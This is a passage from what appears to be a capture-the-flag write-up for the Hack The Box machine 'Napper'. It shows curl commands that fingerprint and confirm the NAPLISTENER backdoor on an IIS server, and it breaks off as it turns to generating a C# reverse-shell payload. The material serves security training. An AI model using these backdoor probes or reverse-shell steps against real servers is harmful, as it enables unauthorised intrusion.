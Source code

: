 Requesting a non-excising URL and the IIS web server returns a `404` response with a Server header containing `Microsoft-IIS/10.0`

Next we send a get request to the listener URL.

```shell
labadmin@labmachine:~/napper$ curl -k -I https://napper.htb/ews/MsExgHealthCheckd
HTTP/2 404
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Thu, 16 May 2024 12:24:25 GMT
```

The 404 error when requesting the listener URI adds `Content-Type: text/html; charset=utf-8` as an extra header. When NAPLISTENER is installed, the string `Microsoft-HTTPAPI/2.0` is appended to the Server header as well.

The backdoor seems to be present.

```shell
labadmin@labmachine:~/napper$ curl -k -i -d 'sdafwe3rwe23=exploit' https://napper.htb/ews/MsExgHealthCheckd/
HTTP/2 200
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Tue, 30 Apr 2024 08:11:14 GMT
```

Now we need a payload and we use this page to generate a C# payload for reverse shell.

[https://www.revshells.com/](https://www.revshells.com/)
